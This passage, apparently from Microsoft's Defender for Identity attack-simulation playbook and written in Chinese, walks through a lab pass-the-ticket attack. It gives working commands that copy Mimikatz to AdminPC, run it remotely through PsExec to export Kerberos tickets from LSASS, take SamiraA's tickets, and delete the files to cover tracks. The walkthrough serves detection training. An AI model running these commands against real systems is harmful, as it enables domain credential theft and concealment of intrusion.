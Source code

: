 在這裡，我們將：

* 在 AdminPC 上發動 Mimikatz
* 在 AdminPC 上收集票證
* 傳遞票證成為 SamiraA

### <a name="pass-the-ticket"></a>傳遞票證

從 **VictimPC** 上 *RonHD* 的內容中執行的命令提示字元，周遊至我們常見攻擊工具的所在位置。 然後，執行 xcopy，將這些工具移至 AdminPC：

``` cmd
xcopy mimikatz.exe \\adminpc\c$\temp
```

出現提示時按下 ```d```，指出 "temp" 資料夾是 AdminPC 上的目錄。

![將檔案複製到 AdminPC](media/playbook-escalation-xcopy1.png)

### <a name="mimikatz-sekurlsatickets"></a>Mimikatz sekurlsa::tickets

在 AdminPC 上發動 Mimikatz 時，我們將會使用 PsExec 從遠端執行它。

1. 周遊至 PsExec 所在的位置，並執行下列命令：

   ``` cmd
   PsExec.exe \\AdminPC -accepteula cmd /c (cd c:\temp ^& mimikatz.exe "privilege::debug" "sekurlsa::tickets /export" "exit")
   ```

   該命令將會執行，並匯出 LSASS.exe 處理程序中找到的票證，然後將其放在 AdminPC 上的目前目錄中。

1. 我們需要從 AdminPC，將票證複製回 VictimPC。 我們只對此範例中的 SamiraA 票證感興趣，因此請執行下列命令：

   ``` cmd
   xcopy \\adminpc\c$\temp\*SamiraA* c:\temp\adminpc_tickets
   ```

    ![將收集到的認證從 AdminPC 匯回到 VictimPC](media/playbook-escalation-export_tickets2.png)

1. 讓我們在 AdminPC 上刪除檔案以清除我們的追蹤。

   ``` cmd
   rmdir \\adminpc\c$\temp /s /q
   ```

   > [!Note]
   > 更複雜的攻擊者在電腦上取得系統管理權限之後執行任意程式碼時，不會觸及磁碟。

   在我們 **VictimPC** 上，我們已經在這些收集到的票證放在 **c:\temp\adminpc_tickets** 資料夾中：

    ![C:\temp\tickets 是我們從 AdminPC 匯出的 mimikatz 輸出](media/playbook-escalation-export_tickets4.png)


### <a name="mimikatz-kerberosptt"></a>Mimikatz Kerberos::ptt

當票證位於 VictimPC 本機上時，終於透過「傳遞票證」變成 SamiraA。
